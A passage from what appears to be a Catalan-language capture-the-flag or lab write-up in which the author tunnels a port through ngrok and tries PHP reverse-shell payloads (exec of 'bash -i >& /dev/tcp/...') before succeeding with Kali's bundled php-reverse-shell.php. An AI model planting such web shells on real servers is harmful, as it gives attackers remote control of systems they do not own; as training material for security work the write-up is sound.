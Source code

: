 ### Intent de port forwarding
Fent una mica de recerca, al tenir la IP dinàmica no funciona. Haurem de fer port forwarding amb **Ngrok**.

Primer de tot, obrim un **túnel TCP** al port desitjat, en aquest cas, el `4646`.

```
$ ngrok tcp 4646
```

D'aquesta manera, obtenim una url que redirigeix al nostre port local.

```
tcp://X.tcp.eu.ngrok.io:XXXXX -> localhost:4646
```

Així doncs, podem actualitzar el nostre *payload*, aviam si va aquest cop.

**shell_ngrok.php**:
```php
<?php exec("bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1") ?>
```

*TAMPOC VA.*

Provem una altra sintaxi.

**shell_ngrok.php**:
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1'") ?>
```

Doncs tampoc.

### Shell ja feta de Kali Linux
Després dels meus nefastos intents, recercant he trobat que **Kali Linux** ja inclou una sèrie de scripts de reverse shell per a PHP. Anem a intentar-ho.

**Ruta**: `/usr/share/webshells/php/php-reverse-shell.php`

Finalment després d'editar el fitxer amb la IP i el port desitjat, hem aconseguit una connexió!

![Successful Revshell](./img/success_revshell.png)
